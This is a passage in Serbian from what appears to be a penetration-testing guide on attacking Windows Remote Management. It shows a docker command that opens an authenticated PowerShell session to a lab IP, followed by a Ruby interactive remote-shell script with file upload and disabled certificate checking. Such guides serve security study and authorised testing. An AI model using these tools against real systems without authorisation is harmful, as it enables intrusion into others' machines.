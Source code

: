 Korišćenje PS-docker mašine je moćan alat za napad na WinRM, koji vam omogućava da izvršite napade na WinRM na efikasan i siguran način.

```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```

### Korišćenje ruby skripte

**Kod izvučen odavde:** [**https://alamot.github.io/winrm\_shell/**](https://alamot.github.io/winrm\_shell/)

```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt
# https://alamot.github.io/winrm_shell/


conn = WinRM::Connection.new(
endpoint: 'https://IP:PORT/wsman',
transport: :ssl,
user: 'username',
password: 'password',
:no_ssl_peer_verification => true
)


class String
def tokenize
self.
split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
select {|s| not s.empty? }.
map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
end
end


command=""
file_manager = WinRM::FS::FileManager.new(conn)


conn.shell(:powershell) do |shell|
until command == "exit\n" do
output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
print(output.output.chomp)
command = gets
if command.start_with?('UPLOAD') then
upload_command = command.tokenize
print("Uploading " + upload_command[1] + " to " + upload_command[2])
file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
end
command = "echo `nOK`n"
end
output = shell.run(command) do |stdout, stderr|
STDOUT.print(stdout)
STDERR.print(stderr)
end
end
```